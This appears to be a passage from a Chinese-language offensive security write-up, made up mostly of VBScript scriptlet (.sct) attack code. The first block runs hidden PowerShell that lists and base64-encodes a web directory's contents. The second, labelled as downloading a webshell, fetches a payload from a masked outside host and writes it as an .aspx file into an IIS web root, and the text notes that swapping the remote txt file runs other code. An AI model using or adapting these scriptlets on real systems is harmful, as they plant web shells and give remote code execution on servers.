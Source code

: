 ```
Do While Not Re.StdOut.AtEndOfStream
	getName Re.StdOut.ReadLine()
Loop
End Sub

Cmd "powershell -w hidden -c $s=Get-ChildItem D:\web4_new\;$process ='';foreach ($n in $s){$process += $n.Name+'|'}$Bytes = [System.Text.Encoding]::Unicode.GetBytes($process);$EncodedText =[Convert]::ToBase64String($Bytes);Write-Host $EncodedText;exit;"
]]>
		</script>
	</registration>
</scriptlet>
```

下载Webshell：

```
<?XML version="1.0"?>
<scriptlet>
	<registration progid="d08c96" classid="{cea46581-c344-4157-b891-30f358f1522d}" >
		<script language="vbscript">
		<![CDATA[
Set Shell = CreateObject("Wscript.Shell")
Set Post = CreateObject("Msxml2.XMLHTTP")
wfolder = "C:\inetpub\wwwroot\xxx\111english.aspx"
Post.Open "GET","http://xxx.xxxx.xxx.xxx:85/bak/english.txt",0
Post.Send()
Set aGet = CreateObject("ADODB.Stream")
aGet.Mode = 3
aGet.Type = 1
aGet.Open()
aGet.Write(Post.responseBody)

aGet.SaveToFile wfolder,2

		]]>
		</script>
	</registration>
</scriptlet>
```
通过指定不同的txt，执行不同的代码。
